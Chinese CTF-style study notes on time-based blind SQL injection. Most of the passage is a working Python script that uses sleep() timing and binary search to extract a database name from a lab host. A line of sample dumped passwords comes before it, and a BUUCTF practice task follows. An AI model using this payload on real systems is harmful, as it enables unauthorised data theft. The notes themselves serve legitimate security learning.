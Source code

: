 admin123,password,zhangsanpass,lisipass

## 时间盲注——二分法

```py
import requests
import time

url = 'http://10.3.4.96/sleep_sql.php?'
flag = ''

for i in range(1, 20):
    high = 127
    low = 32
    middle = (high + low) // 2
    while(high > low):
        payload = url + f"id=1' and if(ascii(substr(database(),{i},1))>{middle},sleep(1),0)%23"
        t1 = time.time()
        r = requests.get(payload)
        t2 = time.time()

        if (t2 - t1) > 1:  # 对比响应时间
            low = middle + 1
        else:
            high = middle
        middle = (high + low) // 2

    flag += chr(middle)
    print(flag)
    if (high <= 32):
        break
```

![image-20250916155614599](assets/image-20250916155614599.png)

## 练习：BUUCTF finalSQL

这道题过滤了很多 字典：sql_bypass_fuzz.txt
